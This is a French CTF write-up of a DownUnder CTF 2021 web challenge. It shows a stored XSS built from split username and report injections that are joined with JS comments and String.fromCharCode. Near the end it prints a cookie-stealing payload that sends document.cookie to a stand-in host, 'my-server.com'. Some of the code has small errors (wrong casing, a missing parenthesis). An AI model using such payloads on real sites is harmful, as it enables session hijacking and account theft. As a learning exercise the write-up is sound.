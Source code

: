 # Writeup for the challenge **_`x1337 Sk1d R3p0rt3r`_** from DownUnder CTF 2021
----

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`x1337 Sk1d R3p0rt3r`** |
| Category: | **`Web`** |
| Points: | **`232pts`**|
| Author: | **`Xesh`**|

## Description:
 Pesky sk1dz everywhere, they are being taken offline left right and centre! It looks like th3 sk1dz have been reporting eachother on this site, something something cyber justice?

---

- ## Solution

Pour ce challenge, on se retrouve tout d'abord sur une page d'accueil.

Après s'être inscrit et connecté on arrive sur le endpoint `/dashboard`

 ![Capture 1](images/DUCTF_web1.png)

Plusieurs  possibilités s'offrent à nous:
###### **1.**  Créer un report
###### **2.** Changer son nom d'utilisateur

---

### Analyse du report
On tente d'abord de créer un report avec un texte aléatoire.

On se retrouve alors sur la page détaillant ce dernier.

 ![Capture 2](images/DUCTF_web2.png)


Intéréssant, on peut voir un boutton `Send Report to Admin`, ce genre de feature est généralement présente lorsqu'il est question d'exploiter une faille **XSS**.

Avec cette info en tête essayons une injection classique dans le champs report.

```html
<script> alert('test') </script>
```

Rien de spécial le champs ne semble pas vulnérable au injection XSS.
 ![Capture 3](images/DUCTF_web3.png)

---

### Analyse du nom d'utilisateur
Essayons maintenant d'insérer le payload dans le nom d'utilisateur.
 ![Capture 4](images/DUCTF_web4.png)

Très bien, alors tentons un simple tag ```<script>```
 ![Capture 5](images/DUCTF_web5.png)
 
Pas de soucis cette fois, vérifions donc une potentielle vulnérabilité XSS dans le report via le nom d'utilisateur.
 ![Capture 6](images/DUCTF_web6.png)
 
Haha, il semble que cette fois notre injection ai marché, regardons le code source:

 ![Capture 7](images/DUCTF_web7.png)

Plusieurs choses sont à noter:

- Notre balise `<script>` a bien été injecter dans le code **HTML**
- On retrouve nos anciens reports dans cette balise
- On peut voir que les charactère **`<`**, **`>`** et **`"`** sont échappés quand ils ont été inséré dans le report

Il semblerait que nous sommes face à une **XSS DOM-Based**, ce type de XSS consiste à exploiter une partie de code HTML pour pouvoir réussir à executer un payload

Jusqu'ici nous savons qu'il est seulement possible d'injecter des balises dans notre nom d'utilisateur mais que nous sommes limités à 10 caractères

Pour le code javascript, il est probablement possible d'utiliser le contenu du report à condition de réussir à enlever le code HTML présent et de ne pas utiliser de string

Commencons par le code HTML problématique

Il se situe à deux endroit: entre la balise `<script>` et le payload ainsi qu'entre le le payload et la balise `</script>`

Heureusement que le javascript permet d'ajouter des commentaires multilignes grâce à `/*` et `*/`

Placons alors ces commentaires aux endroit adequats, pour cela, nous allons devoir changer plusieurs fois de nom d'utilisateur
1. On change le nom d'utilisateur par `*/</script` (le dernier `>` est ajouté automatiquement gràce au code HTML du site) et on envoie le report avec une valeur quelqueconque
2. On change le nom d'utilisateur pour le remettre comme avant et on insère la deuxième partie du payload dans le report
Pour cette partie il est necessaire de trouver comment récupérer une string sans passer les guillements, par chance le javascript dispose de la fonction `String.fromCharCode()`" qui prend une ou plusieurs valeurs décimales et renvoie une string basée sur les codes ascii correspondant, dans notre exemple`'test' = String.fromCharCode(116, 101, 115, 116)`
Notre payload sera donc `*/alert(String.FromCharCode(116, 101, 115, 116)/*`
3. Pour finir on change une dernière fois notre nom d'utilisateur par `<script>/*` et on envoie un report


C'est y est, on a bien notre pop-up, le DOM est bien exploité et ressemble à cela

```html
<script>/*garbage html*/ alert(String.FromCharCode(116, 101, 115, 116) /*garbage html*/</script>
```

On passe maintenant à la vraie exploitation avec un payload visant les cookie:
```html
<script> window.location = 'https://my-server.com/?cookie=' + document.cookie </script>
```

Qui se transforme en
```html
<script> window.location = String.FromCharcode(104, 116, 116, 112, 115, 58, 47, 47, 109, 121, 45, 115, 101, 114, 118, 101, 114, 46, 99, 111, 109, 47, 63, 99, 111, 111, 107, 105, 101, 61) + document.cookie </script>
```

On à plus qu'à récupérer le cookie de l'admin et retourner sur le dashboard

Et bim, dans la note de l'admin se trouve le flag : **`DUCTF{xxX_x55_4_1337_h4x0rz_Xxx}`** 